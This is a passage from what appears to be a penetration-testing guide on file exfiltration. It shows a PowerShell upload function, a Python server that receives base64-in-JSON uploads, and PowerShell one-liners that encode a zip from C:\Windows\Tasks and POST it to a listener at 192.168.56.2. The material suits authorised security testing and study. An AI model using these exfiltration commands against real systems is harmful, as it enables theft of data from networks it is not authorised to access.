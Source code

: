 ```powershell
    [System.Buffer]::BlockCopy($fileContent, 0, $bodyBytes, $headerBytes.Length, $fileContent.Length)
    [System.Buffer]::BlockCopy($footerBytes, 0, $bodyBytes, $headerBytes.Length + $fileContent.Length, $footerBytes.Length)
    
    Invoke-WebRequest -Uri $Uri -Method Post -Headers $headers -Body $bodyBytes
}
```

Usage example:

```console
PS C:\> Invoke-Upload -Uri "http://192.168.56.2:10000/upload" -FilePath "C:\Windows\Tasks\BH.zip"
```

[raven](https://github.com/gh0x0st/raven) is a similar project with the same concept.

### 5. Custom uploadserver

Before I found `uploadserver`, I relied on a custom script that offered similar functionality:

```py
from http.server import HTTPServer, BaseHTTPRequestHandler
from json import loads
from base64 import b64decode


class DownloadHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers["Content-Length"])
        post_data = self.rfile.read(content_length)
        post_data = loads(post_data.decode("utf-8"))

        filename = list(post_data.keys())[0]
        with open(filename, "xb") as f:
            f.write(b64decode(post_data[filename]))

        self.send_response(200)
        self.end_headers()


def run(port):
    httpd = HTTPServer(("", port), DownloadHandler)
    print(f"Server started on port {port}...")
    httpd.serve_forever()


if __name__ == "__main__":
    run(port=10000)
```

File contents should be base64 encoded before exfiltration and the body should be in JSON format:

```console
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path "C:\Windows\Tasks\BH.zip" -Encoding Byte))
PS C:\> IWR http://192.168.56.2:10000/ -Method POST -Body "{`"BH.zip`":`"$b64`"}"
```
